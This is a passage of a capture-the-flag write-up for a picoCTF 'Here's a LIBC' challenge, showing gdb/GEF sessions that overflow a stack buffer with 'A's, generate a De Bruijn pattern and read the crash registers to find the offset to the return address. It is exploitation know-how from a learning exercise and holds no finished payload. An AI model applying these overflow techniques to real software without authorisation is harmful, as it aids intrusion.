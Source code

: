 
$rip is not filled with "41"s because in 64-bit architecture, there is a check to see if the return memory address is valid. Since our buffer of 'A's is not valid, it is not stored in $rip (but you can see it in $rsp, about to be put into $rip). This can be verified with the command `x/gx $rsp` (more info at https://visualgdb.com/gdbreference/commands/x): 

```
gef➤  x/gx $rsp
0x7fffffffde48: 0x4141414141414141
```

## Generating and Using De Bruijn Sequence to find the Buffer Offset before Return Address

To create a De Bruijn Sequence (cyclic sequence in which every possible length-n string on A occurs exactly once as a substring, see https://en.wikipedia.org/wiki/De_Bruijn_sequence) of length 200, run `pattern create 200`: 

```
gef➤  pattern create 200
[+] Generating a pattern of 200 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
[+] Saved as '$_gef0'
```

To use the De Bruijn Sequence, we simply run the executable again, but this time pass the sequence in as input: 

```
gef➤  r
Starting program: /mnt/d/CTFs/picoCTF/Pwn/Here's a LIBC/vuln
WeLcOmE To mY EcHo sErVeR!
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaaaaaanaaaaaaaoaaaaaaapaaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxaaaaaaayaaaaaaa
AaAaAaAaBaAaAaAaCaAaAaAaDaAaAaAaEaAaAaAaFaAaAaAaGaAaAaAaHaAaAaAaIaAaAaAaJaAaAaAaKaAaAaAaLaAaAaAaMaAaaaaanaaaaaaaoaaaaaaad

Program received signal SIGSEGV, Segmentation fault.
0x0000000000400770 in do_stuff ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x7a
$rbx   : 0x0
$rcx   : 0x00007ffff7af4264  →  0x5477fffff0003d48 ("H="?)
$rdx   : 0x00007ffff7dd18c0  →  0x0000000000000000
$rsp   : 0x00007fffffffde48  →  "raaaaaaasaaaaaaataaaaaaauaaaaaaavaaaaaaawaaaaaaaxa[...]"
$rbp   : 0x6161616161616171 ("qaaaaaaa"?)
$rsi   : 0x00007ffff7dd07e3  →  0xdd18c0000000000a ("\n"?)
$rdi   : 0x1
$rip   : 0x0000000000400770  →  <do_stuff+152> ret
$r8    : 0x79
$r9    : 0x0
$r10   : 0x0
$r11   : 0x246
$r12   : 0x1b
$r13   : 0x0
$r14   : 0x1b
$r15   : 0x0
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
```